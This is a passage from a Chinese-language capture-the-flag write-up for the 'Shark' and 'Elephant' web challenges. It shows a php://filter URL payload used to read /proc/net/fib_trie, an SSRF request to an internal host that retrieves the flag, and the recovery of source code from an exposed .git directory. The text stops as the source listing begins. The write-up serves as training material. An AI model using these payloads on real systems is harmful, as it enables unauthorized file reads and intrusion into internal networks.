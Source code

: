     ```
* 在 linux 有很多檔案可以直接讀取，可以參考 http://wp.blkstone.me/2018/06/abusing-arbitrary-file-read/#421 ，要達到我們的目的，需要知道路由缓存，所以直接訪問 `/proc/net/fib_trie`，要注意的是不能直接訪問因為會被擋下來，要用 php 偽協議訪問 `https://shark.ais3.org/?path=php://filter/convert.base64-encode/resource=/proc/net/fib_trie` base64 decode 之後的結果
    ```=
    Main:
  +-- 0.0.0.0/0 3 0 5
     |-- 0.0.0.0
        /0 universe UNICAST
     +-- 127.0.0.0/8 2 0 2
        +-- 127.0.0.0/31 1 0 0
           |-- 127.0.0.0
              /32 link BROADCAST
              /8 host LOCAL
           |-- 127.0.0.1
              /32 host LOCAL
        |-- 127.255.255.255
           /32 link BROADCAST
     +-- 172.22.0.0/16 2 0 2
        +-- 172.22.0.0/30 2 0 2
           |-- 172.22.0.0
              /32 link BROADCAST
              /16 link UNICAST
           |-- 172.22.0.3
              /32 host LOCAL
        |-- 172.22.255.255
           /32 link BROADCAST
    Local:
      +-- 0.0.0.0/0 3 0 5
         |-- 0.0.0.0
            /0 universe UNICAST
         +-- 127.0.0.0/8 2 0 2
            +-- 127.0.0.0/31 1 0 0
               |-- 127.0.0.0
    ```
    我們可以發現我們知道的內網的 ip 位置 
    ```=
    |-- 172.22.0.3
          /32 host LOCAL
    ```
    因為這是目前的內網位置，hint 中說的是另一個內網的，所以說我訪問的是 `172.22.0.2`
* `https://shark.ais3.org/?path=http://172.22.0.2/flag` 訪問之後得到 flag
* **Flag : AIS3{5h4rk5_d0n'7_5w1m_b4ckw4rd5}**

### Elephant
* Do elephants love cookies?
* https://elephant.ais3.org/
* **IMPORTANT**
    * There's a hint in the webpage
* 直接訪問，隨便輸入 admin 然後得到了 `Hello, admin! Your token is not sufficient to read the flag!`
* 因為題目中提到了 cookies，所以看了一下 cookies 中有什麼，發現了一個挺有意思的 cookies `elephant_user=Tzo0OiJVc2VyIjoyOntzOjQ6Im5hbWUiO3M6NToiYWRtaW4iO3M6MTE6IgBVc2VyAHRva2VuIjtzOjMyOiIxOGU1NTUyMTIzNjlhYzI3NGI2NTE3NWQ4NzFmMmZjZiI7fQ%3D%3D`
* `You may want to read the source code.` 這是題目給我的提示，因為沒有什麼想法，我就 fuzz 了一下，發現可以訪問 `https://elephant.ais3.org/.git/refs/heads/master` 至此可以得知是 git 洩漏的題目
* 用 Githack 這個工具拿到了 source code
    ```php=
    <?php
    